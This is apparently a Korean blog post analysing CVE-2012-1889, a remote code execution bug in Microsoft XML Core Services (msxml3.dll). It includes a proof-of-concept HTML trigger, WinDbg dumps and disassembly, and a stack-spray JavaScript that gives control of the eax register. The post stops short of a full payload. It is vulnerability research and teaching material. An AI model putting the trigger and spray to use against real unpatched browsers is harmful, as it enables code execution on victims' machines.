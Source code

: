 ```yaml
---
layout: post
title: "CVE-2012-1889: Microsoft XML Core Services RCE"
date: 2014-05-21 14:14:37 +0900
comments: true
categories: 
---
```


오래된 버그지만, msxml3.dll 을 공격하는 CVE-2012-1889 에 대한 글.

먼저 POC.

    <html>
    <head>
    <object classid='clsid:f6D90f11-9c73-11d3-b32e-00c04F990bb4' id='ca
    llAX'></object>
    <script type='text/javascript'>
    function getValue() {
        document.getElementById("callAX").object.definition(0);
    }
    </script>
    </head>
    <body onload='getValue()'>
    </body>
    </html>

windbg 로 조사.

    Microsoft (R) Windows Debugger Version 6.12.0002.633 AMD64
    Copyright (c) Microsoft Corporation. All rights reserved.

    This exception may be expected and handled.
    *** ERROR: Symbol file could not be found.  Defaulted to export symbols for C:\Windows\SysWOW64\msxml3.dll - 
    msxml3!DllRegisterServer+0x889b:
    7221e1b0 ff5118          call    dword ptr [ecx+18h]  ds:002b:fc771901=????????
    0:004:x86> r
    eax=72210ae0 ebx=00000000 ecx=fc7718e9 edx=00000001 esi=72210ae0 edi=0348ee20
    eip=7221e1b0 esp=0348eaa4 ebp=0348ebe0 iopl=0         nv up ei pl nz na po nc
    cs=0023  ss=002b  ds=002b  es=002b  fs=0053  gs=002b             efl=00010202
    msxml3!DllRegisterServer+0x889b:
    7221e1b0 ff5118          call    dword ptr [ecx+18h]  ds:002b:fc771901=????????

`call dword ptr [ecx+18h]` 에서 crash 가 발생했다. `ecx` 의 값은 0xfc7718e9

콜스택을 까보자.

    0:004:x86> k
    ChildEBP RetAddr  
    WARNING: Stack unwind information not available. Following frames may be wrong.
    0348ebe0 72201244 msxml3!DllRegisterServer+0x889b
    0348ec1c 72201d4e msxml3!DllGetClassObject+0x23e1b
    0348ec5c 72201ce7 msxml3!DllGetClassObject+0x24925
    0348ec90 72202213 msxml3!DllGetClassObject+0x248be
    0348ecec 72202195 msxml3!DllGetClassObject+0x24dea
    0348ed1c 72aea22a msxml3!DllGetClassObject+0x24d6c
    0348ed58 72aea175 JSCRIPT!IDispatchExInvokeEx2+0x104
    0348ed94 72aea3f6 JSCRIPT!IDispatchExInvokeEx+0x6a
    0348ee54 72aea4a0 JSCRIPT!InvokeDispatchEx+0x98
    0348ee88 72afd8c8 JSCRIPT!VAR::InvokeByName+0x139
    0348eed4 72afd96f JSCRIPT!VAR::InvokeDispName+0x7d
    0348ef00 72afe3e7 JSCRIPT!VAR::InvokeByDispID+0xce
    0348f09c 72af5c9d JSCRIPT!CScriptRuntime::Run+0x2b80
    0348f184 72af5bfb JSCRIPT!ScrFncObj::CallWithFrameOnStack+0xce
    0348f1cc 72af74ac JSCRIPT!ScrFncObj::Call+0x8d
    0348f250 72af4ea4 JSCRIPT!NameTbl::InvokeInternal+0x141
    0348f280 72afe3e7 JSCRIPT!VAR::InvokeByDispID+0x17f
    0348f41c 72af5c9d JSCRIPT!CScriptRuntime::Run+0x2b80
    0348f504 72af5bfb JSCRIPT!ScrFncObj::CallWithFrameOnStack+0xce
    0348f54c 72af5e11 JSCRIPT!ScrFncObj::Call+0x8d
    0348f5c8 72aef3ee JSCRIPT!CSession::Execute+0x15f
    0348f6b0 72aeea2e JSCRIPT!NameTbl::InvokeDef+0x1b5
    0348f734 72ae96de JSCRIPT!NameTbl::InvokeEx+0x12c
    0348f75c 72d2aa7b JSCRIPT!NameTbl::Invoke+0x70
    0348f7f0 72d2ab66 MSHTML!CWindow::ExecuteTimeoutScript+0x87
    0348f848 72d56af7 MSHTML!CWindow::FireTimeOut+0xb6
    0348f858 72d51e57 MSHTML!CStackPtrAry<unsigned long,12>::GetStackSize+0xb6
    0348f87c 752c6238 MSHTML!GlobalWndProc+0x183
    0348f8a8 752c68ea USER32!InternalCallWinProc+0x23
    0348f920 752c7d31 USER32!UserCallWinProcCheckWow+0x109
    0348f980 752c7dfa USER32!DispatchMessageWorker+0x3bc
    0348f990 745204a6 USER32!DispatchMessageW+0xf
    0348fa08 74530446 IEFRAME!CTabWindow::_TabWindowThreadProc+0x452
    0348fac0 760649bd IEFRAME!LCIETab_ThreadProc+0x2c1
    0348fad0 75d03677 iertutil!CIsoScope::RegisterThread+0xab
    0348fadc 776d9d72 KERNEL32!BaseThreadInitThunk+0xe
    0348fb1c 776d9d45 ntdll_776a0000!__RtlUserThreadStart+0x70
    0348fb34 00000000 ntdll_776a0000!_RtlUserThreadStart+0x1b

디스어셈블을 해보자.

    7221e18f 8b45ec          mov     eax,dword ptr [ebp-14h]
    7221e192 8bf0            mov     esi,eax
    7221e194 3bc3            cmp     eax,ebx
    7221e196 7429            je      msxml3!DllRegisterServer+0x88ac (7221e1c1)
    7221e198 ff7528          push    dword ptr [ebp+28h]
    7221e19b 8b08            mov     ecx,dword ptr [eax]
    7221e19d ff7524          push    dword ptr [ebp+24h]
    7221e1a0 ff7520          push    dword ptr [ebp+20h]
    7221e1a3 57              push    edi
    7221e1a4 6a03            push    3
    7221e1a6 ff7514          push    dword ptr [ebp+14h]
    7221e1a9 68c4d31f72      push    offset msxml3!DllGetClassObject+0x1ff9b (721fd3c4)
    7221e1ae 53              push    ebx
    7221e1af 50              push    eax
    7221e1b0 ff5118          call    dword ptr [ecx+18h] <--- !!!
    7221e1b3 89450c          mov     dword ptr [ebp+0Ch],eax
    7221e1b6 8b06            mov     eax,dword ptr [esi]
    7221e1b8 56              push    esi
    7221e1b9 ff5008          call    dword ptr [eax+8]
    7221e1bc e99c3afeff      jmp     msxml3!DllGetClassObject+0x24834 (72201c5d)

IDA Pro 에서 msxml3.dll 을 로드한다. 

{% img /images/cve-2012-1889.png %}

Access violation 이 나는 함수는 `_dispatchImpl::InvokeHelper`. 

    __int32 __stdcall _dispatchImpl::InvokeHelper(void *, 
        struct DISPATCHINFO *, 
        __int32, 
        unsigned __int32, 
        char, 
        struct tagDISPPARAMS *, 
        struct tagVARIANT *,
        struct tagEXCEPINFO *,
        unsigned int *)

Access violation 이 나는 이유는 obj.definition() 함수의 call path 어딘가에서 uninitialized local variable 을 참조하였기때문.

`mov ecx,[eax]` 로 `ecx` 를 셋업하고나서, `call dword ptr [ecx+18h]` 를 하기때문에, eax 를 컨트롤 할 수 있어야 한다.

obj.definition() 함수 call path 에서 uninitialized local variable 을 참조하는 버그를 활용하기 위해, stack spraying 을 수행한다.
`pic.src = src` 가 stack sparying 을 진행하는 코드. `pic.nameProp` 으로 참조를 해준다.

    function getValue() {
        var obj = document.getElementById("callAX").object
        var src = unescape("%u0c08%u0c0c");
        while (src.length < 0x1002) src += src;
        src = "\\\\\\\\xxx" + src;
        src = src.substr(0, 0x1000 - 10);
        var pic = document.createElement("img");
        pic.src = src;
        pic.nameProp;
        obj.definition(0);
    }

으로 하여 crash 를 만든다.

    722ee19b 8b08   mov ecx,dword ptr [eax]
    0:005:x86> r
    eax=0c0c0c08 ebx=00000000 ecx=723115da edx=00000001 esi=0c0c0c08 edi=0326f028
    eip=722ee19b esp=0326eccc ebp=0326ede8 iopl=0

eax 가 컨트롤되고 있다.
